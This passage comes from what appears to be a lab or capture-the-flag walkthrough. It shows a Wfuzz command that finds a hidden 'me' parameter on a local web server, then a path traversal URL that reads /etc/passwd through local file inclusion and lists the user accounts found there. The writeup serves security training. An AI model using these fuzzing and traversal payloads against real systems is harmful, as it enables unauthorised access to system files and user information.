



3.3 Fuzzing
Local file inclusion (LFI)
A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. More info at Wikipedia.
Wfuzz Package Description
Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc. More info.
1. In order to find the parameter for making an LFI, run the following command on your Kali Machine shell.
$wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.12.31/search1.php?FUZZ=contact.php --hl 137
Output:

You got the “me” parameter. “me” is the parameter to exploit the LFI vulneribility.
2. Open the “/etc/passwd” file to view the users of the machine visiting the URL http://192.168.12.31/search1.php?me=../../../../../../etc/passwd.


There are 4 usernames in it . The usernames are : monali , john , hacksudo , search.